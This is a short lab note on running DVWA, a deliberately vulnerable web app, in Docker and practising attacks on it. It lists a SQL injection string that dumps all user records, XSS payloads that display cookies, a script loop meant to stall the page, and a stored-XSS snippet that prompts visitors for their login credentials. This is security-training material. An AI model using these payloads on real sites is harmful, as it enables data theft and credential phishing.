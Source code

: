 # Web Security

To run DVWA easily:
1. Install docker
2. Run docker
3. Enter the following command

```docker run --rm -it -p 80:80 vulnerables/web-dvwa```

4. Go to `localhost:80' (firefox is better than chrome since chrome as anti-xss stuff)
5. Enter `admin` and `password`
6. Scroll down and click create and reset database
7. Log back in using the same credentials


SQL Injection:
Displays all records in DB:

Query being run by the server:

```SELECT first_name, last_name FROM users WHERE user_id = '$id'```
\
\
\
\
\
\
\
\
\
\
Substitute the following in:
```%' or '0'='0```

DOM XSS:

```?default=<script>alert(document.cookie)</script>```

Onetime XSS:

```<script>alert(document.cookie)</script>```

Stall/Crash server:
```<script>for(;;){}</script>```

Stored XSS:

Enter the following:

```
So happy to be here
<script>
  alert("Hi, we need you to login once more before you can sign the book");
  var user = prompt("Please enter your username");
  var pwd = prompt("Please enter your password");
</script>
```


